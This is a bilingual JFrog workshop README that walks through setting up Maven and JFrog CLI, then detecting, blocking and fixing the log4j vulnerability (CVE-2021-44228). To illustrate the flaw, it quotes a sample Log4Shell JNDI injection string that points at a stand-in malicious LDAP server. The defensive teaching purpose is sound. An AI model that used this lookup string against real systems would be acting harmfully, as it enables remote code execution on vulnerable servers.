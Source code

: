 <details>
<summary>English</summary>

## Course Objectives

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This workshop aims to help you get started with JFrog SaaS and practice building a Maven project. By the end of this workshop, you will be able to:
- Apply for a JFrog SaaS trial and set up your environment.
- Clone and configure a Maven project.
- Build and deploy the project using JFrog CLI.
- Understand and remediate security vulnerabilities using JFrog Xray.

## 📝 Prerequisites

### JDK 17 Installation
1. **Install JDK**
   - Download and install JDK from [OpenJDK](https://jdk.java.net/archive/)
   - Select JDK 17 (LTS) version
   - Choose the appropriate package for your operating system:
     - Windows: `.zip` archive
     - macOS: `.tar.gz` archive
   - For Windows:
     - Extract the `.zip` to a directory like `C:\Program Files\Java\jdk-17`
   - For macOS:
     - Extract the `.tar.gz` to `/Library/Java/JavaVirtualMachines/`

### Set Environment Variables

#### JAVA_HOME
1. Open System Properties (Win + S → "Environment Variables")
2. Click "Environment Variables" → "New" under System variables
3. Set:
   ```
   Variable name: JAVA_HOME
   Variable value: C:\Program Files\Java\jdk-17
   ```
4. In System variables, select "Path" → "Edit"
5. Click "New" and add:
   ```
   %JAVA_HOME%\bin
   ```
6. Click "OK" to save

### Verify Installation
   ```bash
   # Check Java version
   java -version
   ```
   Expected output:
   ```
   openjdk version "17.0.2" 2022-01-18
   OpenJDK Runtime Environment (build 17.0.2+8)
   OpenJDK 64-Bit Server VM (build 17.0.2+8, mixed mode, sharing)
   ```

### Maven 3.6.3
1️⃣ **Download Maven**
   - Go to [Apache Maven download page](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - Download the Binary zip archive (e.g., `apache-maven-3.6.3-bin.zip`)
2️⃣ **Extract Maven**
   - Extract the downloaded ZIP file to a directory, e.g.:
     ```
     C:\Program Files\Apache\Maven
     ```
   - Your Maven folder structure should look like:
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.6.3
     ```
#### MAVEN_HOME Environment variables
1. In System variables, click "New"
2. Set:
   ```
   Variable name: MAVEN_HOME
   Variable value: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   ```
3. In "Path" variable, click "Edit"
4. Click "New" and add:
   ```
   %MAVEN_HOME%\bin
   ```
5. Click "OK" on all windows to save

> **Note:** After setting environment variables, you need to open a new Command Prompt for the changes to take effect.

#### Verify Installation
   ```bash
   # Open a new Command Prompt and run:
   mvn -version
   ```
   Expected output:
   ```
   Apache Maven 3.6.3 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   Java version: 17.0.2, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk-17
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)  
   Select "14-Day Free Trial", it will give you your own JFrog Platform.
   ![alt text](images/trial.png)

2. **Select AWS Region**
   - Choose either AWS Singapore or Tokyo region
   - This will provide better network performance for users in Asia
   - The region selection is available during the trial signup process

3. You will get an email containing the login credentials for the JFrog platform

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories
![img_6.png](images/img_6.png)
1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-libs-snapshot` `sample-libs-release`

### 4. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - username
   - password or Reference Token (from Profile → Edit Profile → Generate an Identity Token)

### 5. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `.jfrog/projects/maven.yaml` pointing to your SaaS repositories.

### 6. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### 8. Enable Xray Scanning
1. Go to **JFrog Xray → Index Resource**
2. Add to watch:
   - Repositories: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Builds: `sample-maven-build`

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security has identified this log4j package as a true positive. You can view the detailed evidence in the security report.
![img_1.png](images/img_1.png)

#### Review the False Positive Results
![img_5.png](images/img_5.png)
> **86% of critical/high vulnerabilities are false positives**

![img_4.png](images/img_4.png)

#### 9.2 Block Vulnerable Version
![img_7.png](images/img_7.png)
1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create Policy:**  
   ![img_2.png](images/img_2.png)

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

The build should be successful and the issue was fixed.

7. **Analysis of Vulnerability Fixing Trends:**
Platform → Xray → Scan List → Builds
![alt text](images/buildList.png)

The build should complete successfully, confirming that the security issue has been fixed.

> **Happy building and stay secure! 🚀**

</details>

<details>
<summary>繁體中文</summary>

## 課程目標
歡迎參加 **JFrog SaaS 試用工作坊！** 🎓  
本工作坊旨在幫助您開始使用 JFrog SaaS 並練習構建 Maven 項目。在本次工作坊結束時，您將能夠：
- 申請 JFrog SaaS 試用並設置您的環境。
- 克隆並配置 Maven 項目。
- 使用 JFrog CLI 構建和部署項目。
- 使用 JFrog Xray 理解和修復安全漏洞。

## 📝 前置需求

### JDK 17 安裝
1. **安裝 JDK**
   - 從 [OpenJDK](https://jdk.java.net/archive/) 下載並安裝 JDK
   - 選擇 JDK 17 (LTS) 版本
   - 選擇適合您作業系統的套件：
     - Windows：`.zip` 壓縮檔
     - macOS：`.tar.gz` 壓縮檔
   - Windows 系統：
     - 解壓 `.zip` 到目錄，如 `C:\Program Files\Java\jdk-17`
   - macOS 系統：
     - 解壓 `.tar.gz` 到 `/Library/Java/JavaVirtualMachines/`

### Set Environment Variables

#### JAVA_HOME
1. 打開系統屬性（Win + S → "環境變數"）
2. 點擊"環境變數" → 在系統變數下點擊"新建"
3. 設置：
   ```
   變數名稱：JAVA_HOME
   變數值：C:\Program Files\Java\jdk-17
   ```
4. 在系統變數中，選擇"Path" → "編輯"
5. 點擊"新建"並添加：
   ```
   %JAVA_HOME%\bin
   ```
6. 點擊"確定"保存

### 驗證安裝
   ```bash
   # 檢查 Java 版本
   java -version
   ```
   預期輸出：
   ```
   openjdk version "17.0.2" 2022-01-18
   OpenJDK Runtime Environment (build 17.0.2+8)
   OpenJDK 64-Bit Server VM (build 17.0.2+8, mixed mode, sharing)
   ```

### Maven 3.6.3
1️⃣ **下載 Maven**
   - 訪問 [Apache Maven 下載頁面](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - 下載二進制 zip 檔案（例如：`apache-maven-3.6.3-bin.zip`）
2️⃣ **解壓 Maven**
   - 將下載的 ZIP 檔案解壓到目錄，例如：
     ```
     C:\Program Files\Apache\Maven
     ```
   - 您的 Maven 資料夾結構應該如下：
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.6.3
     ```
#### MAVEN_HOME 環境變數
1. 在系統變數中，點擊"新建"
2. 設置：
   ```
   變數名稱：MAVEN_HOME
   變數值：C:\Program Files\Apache\Maven\apache-maven-3.6.3
   ```
3. 在"Path"變數，點擊"編輯"
4. 點擊"新建"並添加：
   ```
   %MAVEN_HOME%\bin
   ```
5. 點擊所有視窗的"確定"保存

> **注意：** 設置環境變數後，您需要打開新的命令提示字元才能使更改生效。

#### 驗證安裝
   ```bash
   # 打開新的命令提示字元並運行：
   mvn -version
   ```
   預期輸出：
   ```
   Apache Maven 3.6.3 (...)
   Maven home: C:\Program Files\Apache\Maven\apache-maven-3.6.3
   Java version: 17.0.2, vendor: Oracle Corporation
   Java home: C:\Program Files\Java\jdk-17
   Default locale: en_US, platform encoding: UTF-8
   OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
   ```

## 🚀 開始使用

### 1. 申請 JFrog SaaS 試用
1. [申請 JFrog SaaS 試用](https://jfrog.com/start-free/)  
   選擇"14 天免費試用"，它將為您提供自己的 JFrog 平台。
   ![alt text](images/trial.png)

2. **選擇 AWS 區域**
   - 選擇 AWS 新加坡或東京區域
   - 這將為亞洲用戶提供更好的網絡性能
   - 區域選擇在試用註冊過程中可用

3. 您將收到一封包含 JFrog 平台登入憑證的電子郵件

### 2. 克隆項目
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. 創建 Maven 倉庫
![img_6.png](images/img_6.png)
1. 登入 JFrog SaaS 平台
2. 點擊**快速倉庫創建**（右上角）
3. 選擇 **Maven** 並創建：
   - 本地倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
   - 遠程倉庫：`sample-maven-remote`
   - 虛擬倉庫：`sample-libs-snapshot` `sample-libs-release`

### 4. 配置 JFrog CLI
1. [下載 JFrog CLI](https://jfrog.com/getcli/)
2. 配置您的環境：
   ```shell
   jf c add saas
   ```
   按照提示輸入：
   - JFrog 平台 URL：`https://<YOUR_DOMAIN>.jfrog.io`
   - 用戶名
   - 密碼或參考令牌（從個人資料 → 編輯個人資料 → 生成身份令牌）

### 5. 配置 Maven
```shell
cd maven-sample
jf mvnc
```
這將生成指向您的 SaaS 倉庫的 `.jfrog/projects/maven.yaml`。

### 6. 構建和部署
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. 驗證部署
- 在 **Artifactory → Artifacts** 中檢查已部署的文件
- 在 **Builds** 部分查看構建信息

### 8. 啟用 Xray 掃描
1. 轉到 **JFrog Xray → Index Resource**
2. 添加到監視：
   - 倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
   - 構建：`sample-maven-build`

### 了解 log4j 漏洞
檢測到 log4j 漏洞（CVE-2021-44228）是因為您的項目使用了 log4j-core 2.14.0。但是，只有在以下情況下才會被利用：

1. 使用易受攻擊的日誌模式：
   ```java
   // 易受攻擊
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // 安全
   logger.info("User logged in: {}", username);
   ```

2. **並且**當：
   - 記錄用戶控制的輸入
   - 輸入包含 `${jndi:ldap://...}` 模式
   - 應用程序可以訪問惡意服務器

這解釋了為什麼 Xray 顯示許多誤報 - 代碼中存在漏洞，但在您的使用場景中無法被利用。

### 9. 修復 log4j 漏洞

#### 9.1 審查漏洞
JFrog 高級安全已將此 log4j 包識別為真實漏洞。您可以在安全報告中查看詳細證據。
![img_1.png](images/img_1.png)

#### 審查誤報結果
![img_5.png](images/img_5.png)
> **86% 的嚴重/高風險漏洞是誤報**

![img_4.png](images/img_4.png)

#### 9.2 阻止易受攻擊的版本
![img_7.png](images/img_7.png)
1. **創建阻止條件：**  
   管理員 → 策展設置 → 創建條件  
   ![img.png](images/img.png)

2. **創建策略：**  
   ![img_2.png](images/img_2.png)

3. **清理緩存：**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **驗證阻止：**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **修復：更新 log4j 版本**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **重新構建：**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

構建應該成功，問題已修復。

7. **漏洞修復趨勢分析：**
平台 → Xray → 掃描列表 → 構建
![alt text](images/buildList.png)

構建應該成功完成，確認安全問題已修復。

> **祝您構建愉快，保持安全！🚀**

</details>